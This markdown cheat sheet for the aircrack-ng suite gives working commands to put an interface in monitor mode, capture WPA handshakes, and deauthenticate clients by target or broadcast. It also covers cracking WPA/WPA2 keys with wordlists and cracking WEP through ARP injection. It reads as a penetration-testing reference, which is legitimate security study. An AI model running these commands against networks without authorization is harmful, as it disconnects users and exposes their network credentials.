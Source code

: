 
## 🧰 Key Tools in the Suite

| Tool          | Purpose                         |
| ------------- | ------------------------------- |
| `airmon-ng`   | Enable/disable monitor mode     |
| `airodump-ng` | Capture packets & handshakes    |
| `aireplay-ng` | Packet injection (e.g., deauth) |
| `aircrack-ng` | Crack captured handshakes       |
| `airbase-ng`  | Fake AP                         |
| `airdecap-ng` | Decrypt WEP/WPA pcap files      |

---

## 🚀 Setup & Monitor Mode

### List Interfaces
```
iwconfig
```


## Kill Conflicting Processes
```
sudo airmon-ng check kill
```

## 📡 Capture Handshake (WPA/WPA2)

1. Start Monitoring
```
sudo airmon-ng start wlan0
```

2. Discover Networks
```
sudo airodump-ng wlan0mon
```
Note BSSID (MAC), channel (CH), and ESSID (name).

3. Targeted Capture
```
sudo airodump-ng --bssid <BSSID> -c <CH> -w capture wlan0mon
```

4. Deauth Client to Force Handshake
```
sudo aireplay-ng --deauth 10 -a <BSSID> -c <CLIENT_MAC> wlan0mon
```

If no specific client, use broadcast:
```
sudo aireplay-ng --deauth 10 -a <BSSID> wlan0mon
```

## 🔓 Crack Handshake (WPA/WPA2)
```
aircrack-ng -w wordlist.txt -b <BSSID> capture.cap
```

- `-w`: Wordlist file
    
- `-b`: BSSID
    
- `.cap`: Handshake file (from airodump)

## 🔑 Crack WEP

1. Capture IVs
```
airodump-ng --bssid <BSSID> -c <CH> -w wep-dump wlan0mon
```

2. Inject ARP Packets
```
aireplay-ng -3 -b <BSSID> -h <Your_MAC> wlan0mon
```

3. Crack WEP Key
```
aircrack-ng wep-dump.cap
```

## 📂 Output Files

|File|Description|
|---|---|
|`.cap`|Packet capture|
|`.csv`|CSV log of networks|
|`.kismet.csv`|Compatible with Kismet|
|`.netxml`|XML network data|
## 🛠 Pro Tips

- Use `--ivs` to speed up cracking (WEP)
    
- Use large wordlists for WPA/WPA2 (e.g., rockyou.txt)
    
- Combine with `hashcat` for GPU-accelerated cracking
    
- Monitor power level with `iwconfig` or `airmon-ng`

## 📚 Wordlists

- Default: `/usr/share/wordlists/rockyou.txt.gz`
    
- Custom: Use `crunch`, `cewl`, or download from:
    
    - [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)

## 📦 Extra Tools

|Tool|Use|
|---|---|
|`airgraph-ng`|Visualize captures|
|`airolib-ng`|WPA pre-computed tables|
|`packetforge-ng`|Create custom packets|
|`wifi-honey`|Fake AP for honeypots|






















































